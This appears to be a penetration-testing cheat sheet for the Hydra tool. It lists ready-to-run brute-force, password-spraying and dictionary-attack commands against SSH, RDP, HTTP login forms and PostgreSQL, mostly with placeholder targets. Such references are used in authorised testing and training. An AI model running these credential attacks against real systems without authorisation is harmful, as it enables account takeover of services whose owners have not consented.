 ##### **Hydra**
Brute Forcing with both Username and Password list, Change Service accordingly.
```
hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://target_IP
```
```
hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -s SSH_Port ssh://target_IP
```

Brute forcing with Password list. Change Service accordingly.
```
hydra -l USER_NAME -P /usr/share/wordlists/rockyou.txt ssh://target_IP
```
```
hydra -l USER_NAME -P /usr/share/wordlists/rockyou.txt -s SSH_Port ssh://target_IP
```

Password Spraying, Change service accordingly.
```
hydra -L users.txt -p "PASSWORD" rdp://Target_IP
```
```
hydra -L users.txt -p "PASSWORD" -s RDP_PORT rdp://Target_IP
```

Dictionary Attack on HTTP Login Post Form, Change the form contents accordingly.
```
hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:LOGIN FAILED INDICATOR"
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=^USER^&password=^PASS^:Invalid Password!'
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.'
```

HTTP_GET Attack in Hydra.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://Target_ip
```

psql
```
hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt 172.16.242.134 postgres
```